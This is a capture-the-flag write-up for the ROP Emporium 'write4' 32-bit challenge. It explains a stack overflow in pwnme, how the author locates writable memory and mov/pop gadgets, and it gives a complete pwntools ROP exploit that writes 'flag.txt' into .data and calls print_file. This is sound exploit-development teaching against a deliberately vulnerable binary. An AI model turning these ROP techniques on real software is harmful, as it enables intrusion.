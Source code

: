 # write4 - 32 Bit
Program execution:
```
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> <input_here>
```
Run checksec: `checksec ./write432`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Again, `main` call `pwnme`, but this time `pwnme` is in an external file, which must be the given libwrite432.so.

Disassembling libwrite432.so shows that just like in the past challenges, `pwnme` unsafely reads too many (0x200) bytes in to a 32 byte buffer at `ebp-0x28`:
```assembly
sub     esp, 0x4
push    0x200 {var_34}
lea     eax, [ebp-0x28 {var_2c}]
push    eax {var_2c} {var_38}
push    0x0
call    read
```

We also find the implementation of a `print_file` function which was in the binary's GOT:
```c
int32_t print_file(int32_t arg1)

00000775  int32_t eax = fopen(arg1, data_84b)
000007b1  if (eax != 0)
000007b1      void var_31
000007b1      fgets(&var_31, 0x21, eax)
000007c0      puts(&var_31)
000007e2      return fclose(eax)
00000793  printf("Failed to open file: %s\n", arg1)
000007a0  exit(status: 1)
000007a0  noreturn
```

This function will print a file specified by the string argument (address). So we want to pass "flag.txt" into this function.
Running `rabin2 -z write432` reveals that there is no flag.txt string:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000005d0 0x080485d0 11  12   .rodata ascii nonexistent
```
This means we will need to store a "flag.txt" string somewhere where we know the address (so stack won't work). This area of memory will also need to be writeable. We can use `readelf` to view a list of program segments and their accessibility flags.
`readelf -S write432`:
```
There are 30 section headers, starting at offset 0x17a4:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 00003c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481e8 0001e8 0000b0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          08048298 000298 00008b 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048324 000324 000016 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804833c 00033c 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804835c 00035c 000008 08   A  5   0  4
  [10] .rel.plt          REL             08048364 000364 000018 08  AI  5  23  4
  [11] .init             PROGBITS        0804837c 00037c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483a0 0003a0 000040 04  AX  0   0 16
  [13] .plt.got          PROGBITS        080483e0 0003e0 000008 08  AX  0   0  8
  [14] .text             PROGBITS        080483f0 0003f0 0001c2 00  AX  0   0 16
  [15] .fini             PROGBITS        080485b4 0005b4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080485c8 0005c8 000014 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080485dc 0005dc 000044 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048620 000620 000114 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001020 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 00104c 000440 10     28  47  4
  [28] .strtab           STRTAB          00000000 00148c 000211 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 00169d 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```
We're interested in the sections with the `W` flag (writable). `.data` is as good as any and putting data there is the least likely to cause issues. To be safe we can use `objdump` to view a hexdump of that section and confirm there is no important data we are at risk of overwriting:
`objdump -s -j .data write432`:
```
write432:     file format elf32-i386

Contents of section .data:
 804a018 00000000 00000000
```
So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation).
`ropper -f write432 --search 'mov [???], ???'`:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???], ???

[INFO] File: write432
0x08048543: mov dword ptr [edi], ebp; ret;
```
So we have 1 gadgets that lets us move the value in `ebp` into the address specified by the value of `edi`. So now we need gadgets to pop data off the stack into `ebp` and `edi`
`ropper -f write432 --search 'pop edi; pop ebp;'`:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop edi; pop ebp;

[INFO] File: write432
0x080485aa: pop edi; pop ebp; ret;
```
Coincidentally we have a gadget that will let us do that exactly.
Since we can only move 4 bytes at a time, we will have to do 3 moves. One for "flag", one for ".txt" and one for "\x00\x00\x00\x00" so that our string ends with a null terminator.
Each time we write 4 bytes, remember we need to offset the .data address to write to, by 4.

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./write432"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
	gdb.attach(p, '''break main''')

data_addr = 0x0804a018
mov_ptr_edi_ebp_addr = 0x08048543
pop_edi_ebp_addr = 0x080485aa

p.recvuntil(b'> ')

payload = b'A' * (0x28 + 0x4)

for i, string in enumerate([b'flag', b'.txt', b'\x00'*4]):
	# build our string, 4 bytes at a time
	payload += p32(pop_edi_ebp_addr)
	payload += p32(data_addr + i*4)
	payload += string
	payload += p32(mov_ptr_edi_ebp_addr)

# with our .data set up, we can call print_file
payload += p32(elf.symbols['print_file'])
payload += b'A' * 4
payload += p32(data_addr)

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
